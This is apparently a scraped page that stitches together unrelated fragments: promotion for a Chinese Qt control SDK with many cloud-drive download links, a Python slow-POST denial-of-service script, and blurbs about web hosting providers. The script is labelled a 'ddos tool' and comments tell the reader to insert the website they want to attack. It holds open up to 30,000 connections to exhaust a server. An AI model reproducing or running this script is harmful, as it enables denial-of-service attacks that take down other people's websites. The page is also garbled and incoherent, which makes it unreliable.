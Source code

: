 http://blog.sina.com.cn/liang19890820   showdoc  gitlab
qt组件   简书：https://www.jianshu.com/u/1250ab46f9ad
https://www.jianshu.com/c/1b908f2aab44
SDK下载链接：https://pan.baidu.com/s/1A5Gd77kExm8Co5ckT51vvQ 提取码：877p
下载链接中包含了各个版本的动态库文件，所有控件的头文件，使用demo，自定义控件+属性设计器。
自定义控件插件开放动态库dll使用（永久免费），无任何后门和限制，请放心使用。
目前已提供26个版本的dll，其中包括了qt5.12.3 msvc2017 32+64 mingw 32+64 的。
不定期增加控件和完善控件，不定期更新SDK，欢迎各位提出建议，谢谢！
widget版本（QQ：517216493）qml版本（QQ：373955953）三峰驼（QQ：278969898）。
涛哥的知乎专栏 Qt进阶之路 https://zhuanlan.zhihu.com/TaoQt
欢迎关注微信公众号【高效程序员】，C++/Python、学习方法、写作技巧、热门技术、职场发展等内容，干货多多，福利多多！
Qt入门书籍推荐霍亚飞的《Qt Creator快速入门》《Qt5编程入门》，Qt进阶书籍推荐官方的《C++ GUI Qt4编程》。
强烈推荐程序员自我修养和规划系列书《大话程序员》《程序员的成长课》《解忧程序员》

链接：https://pan.baidu.com/s/10LeAj8vcXaTjr8MgKjRC9A 
提取码：78bz 
复制这段内容后打开百度网盘手机App，操作更方便哦

链接：https://pan.baidu.com/s/1asDezZy9ZfLZ2LIa3RsIaQ 
提取码：liol 
复制这段内容后打开百度网盘手机App，操作更方便哦

链接：https://pan.baidu.com/s/1OW_T2KUu6zWjE9OCUN8kZg 
提取码：fiee

链接：https://pan.baidu.com/s/1p8NhQBf5sDVU3tfs0naicQ 
提取码：io03

链接：https://pan.baidu.com/s/11JXfoprf391PiavFfnVLJQ 
提取码：89f1 
复制这段内容后打开百度网盘手机App，操作更方便哦

用户名
@StockMarketGossip

https://drive.google.com/file/d/1dF8K5RzVT6EC9I84LTdp5bCC0vn2LbnG/view

https://edu.csdn.net/course/detail/10750

https://drive.google.com/file/d/1DNRlFUil5O4CEhkUpfnGjXTdr9tOp21r/view?usp=sharing

https://drive.google.com/file/d/1Cnl42jLjVgpyO4PkIFzKWDLwjVy8cVCZ/view?usp=sharing

https://github.com/fluttercandies/wechat_flutter

#!/usr/bin/env python// .ly https://sinister   hz2vAkv#aLfZ   https://hackforums.net/member.php
#https://paper.seebug.org/142/
#https://core.ac.uk/download/pdf/154333223.pdf
import socket
import time
import threading
#Pressure Test,ddos tool
#---------------------------
MAX_CONN=30000
#改写下面的网址为你想攻击的网站！！！！！！！！！
PORT=80
HOST="www..com"
PAGE="/recitewords/api"
#---------------------------
buf=("POST %s HTTP/1.1\r\n"
"Host: %s\r\n"
"Content-Length: 10000\r\n"
"Cookie: dklkt_dos_test\r\n"
"\r\n" % (PAGE,HOST))
socks=[]
def conn_thread():
    global socks
    while len(socks)<MAX_CONN:
        s=socket.socket (socket.AF_INET,socket.SOCK_STREAM)
        try:
            s.connect((HOST,PORT))
            s.send(buf.encode('utf-8'))
            #print ("[+] Send buf OK!,conn=%d\n"%len(socks))
            socks.append(s)
        except Exception as ex:
            print ("[-] Could not connect to server or send error:%s"%ex)
            time.sleep(2)
#end def
def send_thread():
    global socks
    while True:
        for s in socks:
            try:
                s.send("f".encode('utf-8'))
                #print ("[+] send OK! %s"%s)
            except Exception as ex:
                print ("[-] send Exception:%s\n"%ex)
                socks.remove(s)
                s.close()
                time.sleep(1)
#end def
conn_th=threading.Thread(target=conn_thread,args=())
send_th=threading.Thread(target=send_thread,args=())
conn_th.start()
send_th.start()
while(True):
    print("存活连接数：%d "%len(socks))
    time.sleep(1)
    
    
    
 CertifiedHosting - 成立于1999年，CertifiedHosting提供共享虚拟主机，经销主机托管和独立服务器。
NameCheap - Namecheap成立于2000年，是目前互联网上最大的域名注册商之一。自成立以来，Namecheap提供了许多服务，包括共享主机，经销主机托管，VPS主机和专用服务器。
BitcoinWebHosting - BitcoinWebHosting是专门提供主机服务给比特币社区的美国主机商。

https://clients.hostsailor.com/viewinvoice.php?id=171054

